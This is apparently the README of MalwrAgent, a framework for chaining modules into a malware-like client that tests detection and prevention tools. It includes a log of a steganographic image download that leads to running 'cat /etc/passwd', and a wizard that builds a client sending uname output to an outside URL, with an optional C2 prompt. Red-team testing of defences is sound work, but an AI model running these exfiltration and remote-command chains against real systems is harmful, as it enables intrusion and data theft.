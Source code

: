     __   __  _______  ___      _     _  ______    _______  _______  _______  __    _  _______ 
    |  |_|  ||   _   ||   |    | | _ | ||    _ |  |   _   ||       ||       ||  |  | ||       |
    |       ||  |_|  ||   |    | || || ||   | ||  |  |_|  ||    ___||    ___||   |_| ||_     _|
    |       ||       ||   |    |       ||   |_||_ |       ||   | __ |   |___ |       |  |   |  
    |       ||       ||   |___ |       ||    __  ||       ||   ||  ||    ___||  _    |  |   |  
    | ||_|| ||   _   ||       ||   _   ||   |  | ||   _   ||   |_| ||   |___ | | |   |  |   |  
    |_|   |_||__| |__||_______||__| |__||___|  |_||__| |__||_______||_______||_|  |__|  |___|  

    -- .- .-.. .-- .-. .- --. . -. - 

[![Code Climate](https://codeclimate.com/github/michaelschratt/MalwrAgent/badges/gpa.svg)](https://codeclimate.com/github/michaelschratt/MalwrAgent) [![Codacy Badge](https://api.codacy.com/project/badge/Grade/ac34274f76e742f089e82684c2e50dee)](https://www.codacy.com/app/bl4ckw0rm/MalwrAgent?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=michaelschratt/MalwrAgent&amp;utm_campaign=Badge_Grade)

### About MalwrAgent

#### THIS PROJECT IS STILL IN ALPHA STATE

Hello Agent M! Welcome to the MalwrAgency. The MalwrAgent enables you test your current detection & prevention capabilities in just a few simple steps. The idea is to offer a framework of different modules you can connect to make up a chain. For example, egress testing can be established by connecting multiple HTTP POST and HTTP GET requests. 

Threat actors tend to use more sophisticated techniques like steganography. This technique is not only applied during infiltration but also used for data exfiltration based on video or image steganography.
Following log output demonstrates the download of an image that contains a hidden string. This string is then used as an input argument for the Command module. Finally, `cat /etc/passwd` is executed. 

    bl4ckw0rm@einsteinium > python malwragent.py -l -c myChains/Stego.json --log 3
    INFO:root:client: Checking f_retrieve_image with parameters {u'url': u'http://mfs-enterprise.com/agency/stego.png'}
    INFO:root:client: Checking f_extract_text_from_image with parameters None
    INFO:root:client: Checking f_exec_system with parameters None
    Autopilot takes over in
       3
       2
       1
    INFO:root:myChains/Stego: Chain CLIENT running
    INFO:root:myChains/Stego: Running function f_retrieve_image from module Web with input <None> and args <{u'url': u'http://mfs-enterprise.com/agency/stego.png'}>
    INFO:root:myChains/Stego: Running Transportation module malwragent.packages.modules.web.Web - Args: {'settings': {u'function': u'f_retrieve_image', 'input': None, u'args': {u'url': u'http://mfs-enterprise.com/agency/stego.png'}}}
    INFO:requests.packages.urllib3.connectionpool:Starting new HTTP connection (1): mfs-enterprise.com
    INFO:requests.packages.urllib3.connectionpool:Starting new HTTP connection (1): www.mfs-enterprise.com
    INFO:root:myChains/Stego: Running function f_extract_text_from_image from module Stego with input <<cStringIO.StringI object at 0x10be7fad0>> and args <None>
    INFO:root:myChains/Stego: Running Transformation module malwragent.packages.modules.stego.Stego - Args: {'settings': {u'function': u'f_extract_text_from_image', 'input': <cStringIO.StringI object at 0x10be7fad0>, u'args': None}}
    INFO:root:myChains/Stego: Running function f_exec_system from module Command with input <cat /etc/passwd> and args <None>
    INFO:root:myChains/Stego: Running Post module malwragent.packages.modules.command.Command - Args: {'settings': {u'function': u'f_exec_system', 'input': 'cat /etc/passwd', u'args': None}}
    INFO:root:myChains/Stego: Chain CLIENT finished
    ^C
    Bye, Bye

Just as one likes, you could use any other module to invoke an action on the previous output. And so on ... But in the end, you should have an eye at your detection & prevention products, and develop new defensive strategies. 

### Get started

    bl4ckw0rm@einsteinium > python malwragent.py
    usage: malwragent.py [-h] [-l] [-w] [-c CONFIGFILE] [-i INTERVAL]
                         [--log {1,2,3,4}] [-V]
    
    optional arguments:
      -h, --help            show this help message and exit
      -l, --load            load and run chain from a configuration file.
      -w, --wizard          create and save a chain to configuration file
      -c CONFIGFILE, --configfile CONFIGFILE
                            configuration file name, default: config.json
      -i INTERVAL, --interval INTERVAL
                            interval for periodic chain execution, default: 10
                            seconds
      --log {1,2,3,4}       increase logging output verbosity
      -V, --version         show program's version number and exit
    
You can use the wizard to create a new client. A client consists of a chain of modules. The chain is stored in JSON format.

    bl4ckw0rm@einsteinium > python malwragent.py -w -c myChains/test             
    #   __   __  _______  ___      _     _  ______    _______  _______  _______  __    _  _______ 
    #  |  |_|  ||   _   ||   |    | | _ | ||    _ |  |   _   ||       ||       ||  |  | ||       |
    #  |       ||  |_|  ||   |    | || || ||   | ||  |  |_|  ||    ___||    ___||   |_| ||_     _|
    #  |       ||       ||   |    |       ||   |_||_ |       ||   | __ |   |___ |       |  |   |  
    #  |       ||       ||   |___ |       ||    __  ||       ||   ||  ||    ___||  _    |  |   |  
    #  | ||_|| ||   _   ||       ||   _   ||   |  | ||   _   ||   |_| ||   |___ | | |   |  |   |  
    #  |_|   |_||__| |__||_______||__| |__||___|  |_||__| |__||_______||_______||_|  |__|  |___|  
    #
    #   -- .- .-.. .-- .-. .- --. . -. - 
    #
    #  Hello Agent M! Welcome to the MalwrAgency. Use our MalwrAgent to create your 
    #  highly flexible and easy to use Malwr. Please go ahead ...
    #
    #  Do you want your client to register with C2-Server? (Y|N) \> n
    #  Choose from our list of modules. What do you want the client to do?
    #
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> m
    
    function                         type            module         choice
    -------------------------------  --------------  -----------  --------
    f_exec_system                    Post            Command             0
    f_base64_decode                  Transformation  Crypto              1
    f_base64_encode                  Transformation  Crypto              2
    f_md5                            Transformation  Crypto              3
    f_sha1                           Transformation  Crypto              4
    f_sha256                         Transformation  Crypto              5
    f_get_platform                   Post            Enumeration         6
    f_get_platform_machine           Post            Enumeration         7
    f_get_platform_processor         Post            Enumeration         8
    f_get_platform_system            Post            Enumeration         9
    f_get_platform_uname             Post            Enumeration        10
    f_get_platform_version           Post            Enumeration        11
    f_extract_text_from_image        Transformation  Stego              12
    f_grab_cmd_from_twitter_profile  Transportation  Twitter            13
    f_http_get                       Transportation  Web                14
    f_http_post                      Transportation  Web                15
    f_retrieve_image                 Transportation  Web                16
    
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> 
    
    Adding function f_get_platform_uname from module Enumeration done
    
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> 14
    
    Please provide the following arguments: url
    
    # +[url] \> http://mfs-enterprise.com/agency/?info=
    
    Adding function f_http_get from module Web done
    
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> n
    #
    #  Do you want to review your chain? (Y|N) \> y
    
    function              type            module       chain    arguments
    --------------------  --------------  -----------  -------  --------------------------------------------------
    f_get_platform_uname  Post            Enumeration  CLIENT
    f_http_get            Transportation  Web          CLIENT   {'url': 'http://mfs-enterprise.com/agency/?info='}
    
    #  Do you want to save the chain as myChains/test.json? (Y|N) \> y
    
    See you then. Use 'malwragent.py -l -c myChains/test.json' to run your client.

### Write your own modules

TBD

### Support

Just drop me a line. Please, use contact information from below.

### Supported Operating Systems

Linux, macOS

### Contribute

Feel free to browse through open issues and help where you can.

### Contact Information

Name: Michael Schratt

Twitter: [@bl4ckw0rm](https://twitter.com/bl4ckw0rm)

Email: github@mfs-enterprise.com

### Licence

Attribution-NoDerivatives 4.0 International (CC BY-ND 4.0)

Visit [https://creativecommons.org/licenses/by-nd/4.0/](https://creativecommons.org/licenses/by-nd/4.0/) for further information

#### Disclaimer

All the information provided on this site are for educational purposes only. The site or the authors are not responsible for any misuse. Do not use the information to write malicious software. Use the information to expand knowledge and improve current or future detection & prevention technology. Use at your own risk. Breaking into computer systems is illegal.